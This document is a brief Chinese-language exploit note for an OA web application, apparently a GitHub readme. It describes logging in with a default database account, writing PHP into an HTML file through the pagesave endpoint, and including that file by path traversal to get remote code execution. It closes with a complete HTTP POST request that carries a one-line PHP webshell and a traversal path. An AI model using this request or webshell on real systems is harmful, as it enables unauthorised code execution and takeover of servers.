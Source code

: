 # ooaa
oa
利用数据库默认账号登陆
思路，写html文件，文件中写入php恶意代码

然后利用路由时的目录穿越漏洞进行文件包含造成rce、



关注函数pagesaveAjax
关注文件
/include/View.php


POST /index.php?a=pagesave&m=flow&d=main&ajaxbool=true HTTP/1.1
Host: localhost:8088
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
.....
Referer: http://localhost:8088/
Cookie: ....

content=<?php $_GET[1]($_GET[2]);?>&num=/../../../../upload/2021-07/tpl_2021-07_iii
